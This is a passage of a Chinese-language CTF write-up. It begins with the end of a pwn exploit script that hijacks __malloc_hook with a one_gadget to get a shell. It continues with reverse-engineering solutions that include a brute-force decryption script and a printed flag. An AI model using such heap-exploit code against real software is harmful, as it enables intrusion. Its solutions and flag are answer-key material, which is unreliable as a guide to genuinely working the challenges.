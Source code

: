 ```python
choice(3)
edit(0x10,p64(libc_addr+libc.sym['__malloc_hook']-0x23))
add(0x68,b'a')
add(0x68,b'a'*(0x13)+p64(libc_addr+one[2]))


choice(1)
p.sendlineafter('content:',str(0x20))
p.interactive()
```

### Reverse

#### asm_re

一开始还想还原这个ida工程文件hhh，发现根本做不到，后面纯看arm汇编代码，直接手撕就好，加密逻辑在这儿，密文一开始还找半天，后面发现应该是存在变量unk_100003F10里面

![img](../../../../图片/本地图床/1716107133474-6dd6bd70-f747-4e79-82d0-bd71353915ef.png)



搓出脚本之后也还是卡了一小会儿，最后反应过来大小端的问题，改一下小端就好了，爆破一下直接出

exp:

```python
k = [
    0x1fd7, 0x21b7, 0x1e47, 0x2027, 0x26e7, 0x10d7, 0x1127, 0x2007,
    0x11c7, 0x1e47, 0x1017, 0x1017, 0x11f7, 0x2007, 0x1037, 0x1107,
    0x1f17, 0x10d7, 0x1017, 0x1017, 0x1f67, 0x1017, 0x11c7, 0x11c7,
    0x1017, 0x1fd7, 0x1f17, 0x1107, 0x0f47, 0x1127, 0x1037, 0x1e47,
    0x1037, 0x1fd7, 0x1107, 0x1fd7, 0x1107, 0x2787
]

for i in range(len(k)):
    for j in range(128): 
        if (((j * ord('P') + 0x14) ^ ord('M')) + 0x1e) == k[i]:
            print(chr(j), end="") 
#flag{67e9a228e45b622c2992fb5174a4f5f5}
```

#### whereThel1b

还真是第一次遇见这种，给了个so和一个py文件，一开始的想法是能不能给so解包之类的，因为py文件里面密文给了，就差一个加密逻辑，找了一大圈还是没找到，最后还是想到了调一下so文件，像调安卓那样

动调起来锁定出了两个函数，得知输入的数据先经过base64编码之后再进行的异或![img](../../../../图片/本地图床/1716109884779-17e06c83-6fc5-4814-bd3c-48dc2b4e2d3b.png)

![img](../../../../图片/本地图床/1716109932327-1f17bb8d-f10b-4e67-b587-873ccedb086b.png)

加密逻辑知道了，但是不知道异或的值是什么，一开始以为是存在r18里面的，最后调了一下找不到规律，最后想到重新写一份密文输入，然后把加密之后的数据输出一下，前后异或得到所需异或的值，想办法输入一个输构造出经过base64编码之后长度为56的数

![img](../../../../图片/本地图床/1716110117071-af6369b0-a2ff-4e9b-a55e-3bb343104144.png)
